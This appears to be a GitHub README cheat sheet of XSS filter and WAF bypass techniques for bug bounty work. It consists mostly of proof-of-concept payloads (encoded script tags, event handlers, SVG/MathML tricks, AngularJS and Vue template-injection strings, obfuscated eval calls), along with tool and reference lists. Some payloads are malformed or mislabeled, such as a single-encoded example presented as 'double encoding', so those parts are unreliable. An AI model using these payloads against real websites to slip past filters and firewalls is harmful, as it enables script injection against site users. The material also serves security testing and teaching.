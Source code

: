 # Advanced Cross-Site Scripting (XSS) Bypass Techniques

> **Mastering Filters, WAFs, and Real-World Exploitation**

---

## 📘 Introduction

Cross-Site Scripting (XSS) remains one of the most prevalent and dangerous vulnerabilities in modern web applications. Despite improvements in input sanitization, CSP headers, and WAFs, attackers consistently find creative ways to bypass restrictions and execute scripts. This document presents a deep-dive into advanced XSS bypass techniques, grounded in real-world bug bounty cases and research.

---

## 🧭 Table of Contents

1. [Introduction](#-introduction)
2. [Types of XSS Filters](#-types-of-xss-filters)
3. [Encoding-Based Bypasses](#-encoding-based-bypasses)
4. [Event Handler & DOM Tricks](#-event-handler--dom-tricks)
5. [HTML5 Abuse & Weird Tags](#-html5-abuse--weird-tags)
6. [JavaScript Context Escapes](#-javascript-context-escapes)
7. [WAF Bypass Techniques](#-waf-bypass-techniques)
8. [Framework-Specific Payloads](#-framework-specific-payloads)
9. [CSP Misconfigurations](#-csp-misconfigurations)
10. [Advanced Obfuscation Techniques](#-advanced-obfuscation-techniques)
11. [Case Studies from Bug Bounties](#-case-studies-from-bug-bounties)
12. [Tools for Testing & Automation](#-tools-for-testing--automation)
13. [Payload Repository](#-payload-repository)
14. [Final Notes](#-final-notes)
15. [References](#-references)

---

## 🔐 Types of XSS Filters

* Input Filters (client-side / server-side)
* Output Filters (context-based)
* HTML Sanitizers (DOMPurify, xss-filters)
* WAFs (Cloudflare, Akamai, AWS WAF)

---

## 🧬 Encoding-Based Bypasses

```html
<script><script\x3Ealert(1)</script>
<svg/onload=&#x61;&#x6c;&#x65;&#x72;&#x74;(1)>
<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></iframe>
```

---

## 🧠 Event Handler & DOM Tricks

```html
<div onpointerover="alert(1)">Hover me</div>
<input onfocus=alert(1) autofocus>
<a href="javascript:alert(1)">Click me</a>
```

---

## 🧪 HTML5 Abuse & Weird Tags

```html
<svg><script>alert(1)</script></svg>
<math><mi//xlink:href="javascript:alert(1)"></math>
<details open ontoggle=alert(1)>
```

---

## 🧩 JavaScript Context Escapes

```js
var data = "<input value='" + user + "'>";
// Payload: ' onfocus=alert(1) autofocus='

JSON.parse('{"user":"<img src=x onerror=alert(1)>"}')
```

---

## 🧱 WAF Bypass Techniques

* Double Encoding:

```html
<script%20%0a>alert(1)</script>
```

* Tag Confusion:

```html
<<script>script>alert(1)</script>
```

* Mixed Context Injection
* Non-Standard Quotes, Spaces, Comments

---

## ⚙️ Framework-Specific Payloads

### AngularJS

```html
{{constructor.constructor('alert(1)')()}}
```

### React

Escape JSX via `dangerouslySetInnerHTML`

### Vue.js

```html
{{['a'].pop().constructor('alert(1)')()}}
```

---

## 🛡️ CSP Misconfigurations

* Open `script-src` or `unsafe-inline`
* Trusted `data:` URIs
* Using `script` inside SVG or iframe

---

## 🌀 Advanced Obfuscation Techniques

```html
<script><!--alert(1)//--></script>
<script>eval("al"+"ert(1)")</script>
<svg><desc><![CDATA[<script>alert(1)</script>]]></desc></svg>
```

---

## 🧾 Case Studies from Bug Bounties

✔️ **Case #17 (2024)**: Bypassed client-side regex using `<svg><script xlink:href="data:text/javascript,alert(1)"></script>`
✔️ **Private Program (2025)**: AngularJS sandbox escape using `{{constructor.constructor('alert(1)')()}}`

---

## 🧪 Tools for Testing & Automation

* [XSStrike](https://github.com/s0md3v/XSStrike)
* [Dalfox](https://github.com/hahwul/dalfox)
* [BugHunter](https://github.com/erohack/bughunter) *(by EroHack)*
* Custom Payload Generators

---

## 💣 Payload Repository

```
payloads/
├── waf-bypass.txt
├── dom-based.txt
├── unicode-encodings.txt
├── framework-specific/
│   ├── angular.txt
│   ├── react.txt
│   └── vue.txt
└── csp-bypass.txt
```

---

## 🧾 Final Notes

* Always test across browsers.
* CSP headers are not always reliable.
* Validate both reflection and execution.
* Automate with caution — manual inspection is key.

---

## 🔗 References

* [OWASP XSS Cheat Sheet](https://owasp.org/www-community/xss)
* [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
* [PortSwigger XSS Bypasses](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
* [HackerOne Writeups](https://hackerone.com/hacktivity)

---

**Author:** [Shayan from EroHack](https://github.com/erohack)
**License:** MIT
**Last Update:** July 2025
